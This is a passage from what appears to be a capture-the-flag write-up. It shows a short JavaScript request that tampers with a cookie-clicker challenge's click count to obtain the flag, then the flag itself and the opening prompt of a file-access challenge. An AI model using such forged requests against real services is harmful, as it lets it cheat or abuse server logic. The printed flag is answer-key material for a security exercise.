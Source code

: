 ## Exploit Code      

```javascript
fetch('/click', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: 'count=10000000'
}).then(response => response.json())
  .then(data => {
    alert(data.flag);
  });
```             
      
<img src="/assets/images/ctf/2024/ut/Off-Brand-Cookie-Clicker/flag.jpg" width="700px"/>       

## Flag      
utflag{y0u_cl1ck_pr3tty_f4st}
            
<a id="Schrödinger"></a>     
           
# Schrödinger    
        
250 solved / 271 pts        

Hey, my digital cat managed to get into my server and I can't get him out.
The only thing running on the server is a website a colleague of mine made.
Can you find a way to use the website to check if my cat's okay? He'll likely be in the user's home directory.
You'll know he's fine if you find a "flag.txt" file.
By helix (@helix_shift on discord)
